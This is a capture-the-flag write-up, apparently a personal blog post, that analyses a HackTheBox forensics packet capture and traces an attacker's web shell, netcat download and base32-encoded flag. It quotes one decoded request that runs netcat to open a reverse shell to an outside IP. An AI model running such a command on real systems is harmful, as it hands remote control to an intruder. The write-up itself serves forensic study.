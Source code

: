 ```yaml
---
title: "Chase Forensics Challenge"
date: 2021-10-04T17:30:30
categories:
  - challenge
tags:
  - HacktheBox
  - Forensics
classes: wide
---
```

To diversify my skill-set I have decided to work on CTF style challenges and write about them. The first, a forensics challenge: Chase from [HackTheBox](https://app.hackthebox.eu/challenges/chase)

>*"One of our web servers triggered an AV alert, but none of the sysadmins say they were logged onto it. We've taken a network capture before shutting the server down to take a clone of the disk. Can you take a look at the PCAP and see if anything is up?*""

This is also a test of adding images to these posts, and doing challenge writeups.

---

First we unzip the file we downloaded from HackTheBox.

<img src="/assets/images/chase/chase1.PNG" alt="Unzipping the challenge files.">

We see that we have a `chase.pcapng` which according to Wireshark's [wiki](https://wiki.wireshark.org/Development/PcapNg) is:

>*"The PCAP Next Generation Dump File Format (or pcapng for short) is an attempt to overcome the limitations of the currently widely used (but limited) libpcap format."*

So it is a packet capture dump file. We'll run `strings chase.pcapng` to see what strings we can read inside first.

<img src="/assets/images/chase/chase2.PNG" alt="Running strings on the file.">

We see web requests and responses, dumped by Wireshark. Looking around more we see:

<img src="/assets/images/chase/chase3.PNG" alt="/cmd.aspx + GET /nc64.exe">

We see the running of a `cmd.aspx` file which according to [fileinfo](https://fileinfo.com/extension/aspx) is:

>*"An ASPX file is an Active Server Page Extended (ASPX) file, which is a webpage generated by web servers running the Microsoft ASP.NET framework. It contains one or more scripts written in VBScript or C# code that are processed by the web server into HTML"*

This combined with `GET /nc64.exe` and the classic python SimpleHTTP server indicates that an attacker is running scripts to pop cmd shells and trying to transfer netcat in order to setup a reverse shell.

This is seen further when we url decode:

```
path=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+c%3A%5Cusers%5Cpublic%5Cnc.exe+22.22.22.7+4444+-e+cmd.exe&Button=Run
#into
path=c:\windows\system32\cmd.exe&xcmd=/c c:\users\public\nc.exe 22.22.22.7 4444 -e cmd.exe&Button=Run
```

We see they get in and run commands through this section of the pcap:

<img src="/assets/images/chase/chase4.PNG" alt="running whoami and ipconfig">

We open up Wireshark and go through the pcap dump, following the various tcp streams. We see this message on stream 6, and a request for a weird `.txt`.

<img src="/assets/images/chase/chase6.PNG" alt="running whoami and ipconfig">

Running the filename through GCHQ's [cyberchef](https://gchq.github.io/CyberChef/) magic algorithm which :

>*"attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."*

Reveals the following:

<img src="/assets/images/chase/chase7.PNG" alt="Success!">

The flag was encoded in base32, we have successfully captured the flag!